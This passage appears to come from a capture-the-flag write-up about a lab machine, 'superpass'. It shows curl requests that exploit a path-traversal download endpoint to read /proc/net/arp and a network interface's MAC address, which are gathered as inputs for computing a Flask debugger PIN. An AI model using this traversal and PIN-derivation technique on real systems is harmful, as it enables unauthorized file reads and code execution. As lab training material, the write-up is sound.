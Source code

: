My script looks like:

```

probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

```

#### Private Bits

The next section is the list `private_bits`:

```

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

```

I’m going to switch to `curl` here for ease. I’ll need to use `--path-as-is` so that `curl` doesn’t undo the `../`, and I’ll need the cookie, which I’ll save in an env variable. I’ll need to get the MAC address. I can find that at `/sys/class/net/[device]/address`. To get the device name, I’ll pull `/proc/net/arp`:

```

oxdf@hacky$ cookie="session=.eJwlzj0OwjAMQOG7ZGaIncQ_vUwVx7ZgbemEuDuV2N709H3Knkecz7K9jyseZX952cpMQegkZGndnMfEfqdWlYSIBPeqidw6rWU652CvyUiGzVFMqVWjlg6hstLMg5ciopvyjCHV2To1WUiTnIj53g_oQLEEpNyQ64zjr9Hy_QEv9zBO.ZMQS_Q.Z4LXfnoQS3utplGKkJ9ScRF8EMY"
oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../proc/net/arp -s --path-as-is -b $cookie
IP address       HW type     Flags       HW address            Mask     Device
10.10.10.2       0x1         0x2         00:50:56:b9:1d:c2     *        eth0

```

The device is `eth0`, which I’ll use to get the MAC:

```

oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../sys/class/net/eth0/address -s --path-as-is -b $cookie
00:50:56:b9:48:b5

```

The script needs this as an int, which I can use Python to convert:

```

>>> int("00:50:56:b9:48:b5".replace(':',''), 16)
345052367029

```
